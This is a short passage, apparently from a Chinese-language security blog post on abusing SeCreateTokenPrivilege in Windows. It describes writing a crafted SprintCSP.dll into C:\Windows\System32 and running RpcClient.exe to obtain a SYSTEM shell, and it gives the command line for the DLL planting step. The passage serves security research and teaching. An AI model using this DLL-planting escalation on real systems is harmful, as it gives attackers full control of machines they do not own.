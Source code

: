 ```c++
}
```

首先通过 SeCreateTokenPrivilege 特权将生成的 SprintCSP.dll 写入 C:\Windows\System32 目录，然后直接运行 RpcClient.exe 即可获取一个 SYSTEM 权限的交互式命令行，如下图所示。

```console
SeCreateTokenPrivilege.exe -s SprintCSP.dll -d C:\Windows\System32\SprintCSP.dll
```

![Animation](/assets/posts/2023-07-06-creating-windows-access-tokens-with-god-privilege/local-privilege-escalation-via-storsvc.gif)
